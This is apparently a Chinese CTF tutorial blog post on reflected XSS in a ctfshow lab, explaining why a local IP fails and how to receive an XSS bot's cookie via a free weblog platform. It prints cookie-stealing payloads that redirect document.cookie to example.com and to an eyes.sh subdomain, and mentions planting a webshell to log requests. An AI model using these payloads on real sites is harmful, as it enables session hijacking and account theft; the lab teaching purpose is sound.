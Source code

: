 ```yaml
---
title: 使用weblog平台接收xss窃取的cookie
date: 2025-06-15 17:51:01
permalink: /pages/xss-weblog/
categories:
  - XSS
tags:
  - weblog
  - dnslog
  - xss
author: 
  name: the0n3
  link: https://the0n3.top
---
```


下面以反射型xss举例，使用免费无需登录的weblog平台记录http请求，拿到xss窃取的cookie，好用推荐！

<!-- more -->


什么是XSS？攻击者准备了一个payload，在用户点击后，在用户浏览器里执行了攻击者提供的javascript代码，js代码可以获取到用户的cookie等信息。xss题目一般后台会有一个机器人脚本/功能，定期执行用户提交的payload。

例如，一个页面，会把url里的参数值显示在页面，例如`http://example.com/?name=<script>alert(1)</script>`，如果页面没有对参数值进行过滤，直接显示在页面上，那么就会执行`<script>alert(1)</script>`这段代码，弹出一个提示框。

什么是叉自己？

## 叉自己举例/细节

下面以web316具体举例。

打开靶机，看看自己的cookie，`flag=you are not admin no flag`，真实的flag是网站管理员的cookie，也就是后台的xss bot机器人的cookie

![1](/medias/xss-weblog/1.png)

随便输入111，提交，提交的内容111直接显示在了页面上。重点提交的111是一个get参数出现在url里，可以在页面直接显示，有xss漏洞的可能。

![2](/medias/xss-weblog/2.png)

提交一串js代码

```javascript
<script>alert(1)</script>
```

页面成功执行了js代码，弹出提示框1，说明有xss漏洞。

![3](/medias/xss-weblog/3.png)

可以使用js代码，在用户打开恶意构造的url时，执行js，发起一个网络请求，把用户的cookie发送到攻击者的服务器上。

**窃取用户cookie有什么用？**，对于一些简单的站点，在访问站点时，带上该用户的cookie，有可能可以直接登录该用户的账号，获取用户的敏感信息。

例如下面这段代码，获取当前页面网站的cookie，把网站重定向请求攻击者的服务器上，把这里的`http://example.com`换成自己服务器的ip就可以收到这个xss请求的cookie。

```javascript
<script>
window.location.href = 'http://example.com/?cookie=' + document.cookie
</script>
```

新手师傅自然而然想到查看自己电脑的ip，把上面换成自己的ip，PHPstudy或者python开个web服务，发现flag是`you are not admin no flag`，没有拿到flag。

例如我使用python开一个python http服务，我的ip是`192.168.6.116`，端口4444

![4](/medias/xss-weblog/4.png)

**你拿到的这个cookie是谁的？你自己的。你写了一个恶意xss payload在攻击自己，叉自己。在你提交这个恶意payload时，靶机后台xss bot在执行这个js代码时，在他内网没有这个主机，找不到他内网的192.168.6.116这个ip，访问不到你的192，172，10段ip**

![5](/medias/xss-weblog/5.png)

## 解决方案

那就有好奇宝宝要问了，对啊对啊，我是内网ip，靶机访问不到我，我该怎么做这题？好问题，提供几个简单的方法

- 使用网络上免费提供的`weblog`平台，把xss的请求url叉到这里。（简单推荐，0成本，即开即用）
- 使用自己的公网服务器python开启一个http服务。注意不要直接在`~`目录开启，会泄露`~`目录的所有文件，网络上会有恶意攻击者专门扫描这个特征指纹。
- 如果你在做ctfshow的xss，同时你还有攻防世界、buuctf、nssctf靶场的账号，在其他靶场找个简单的web题目，拿个webshell，写个php文件，把url请求的参数值写进文件。
- 使用内网穿透攻击，把本地内网ip、端口映射到公网。

这里只介绍第一种方法，其他方法自行探索。

`weblog`推荐平台 [eyes.sh](https://eyes.sh/dns/)

打开，直接使用平台分配的账号进去，不需要自己注册。

在`dnslog`页面，记录分配给你的子域名

![6](/medias/xss-weblog/6.png)

修改xss payload，把受害者（xss bot）的cookie叉到这里，不出意外的话，会收到两个请求，一个是你提交payload时触发的请求，另一个是靶机后台xss bot执行payload时触发的请求。

```javascript
<script>
window.location.href = 'http://enwvbm6o.eyes.sh/?cookie=' + document.cookie
</script>
```

验证成功

![7](/medias/xss-weblog/7.png)
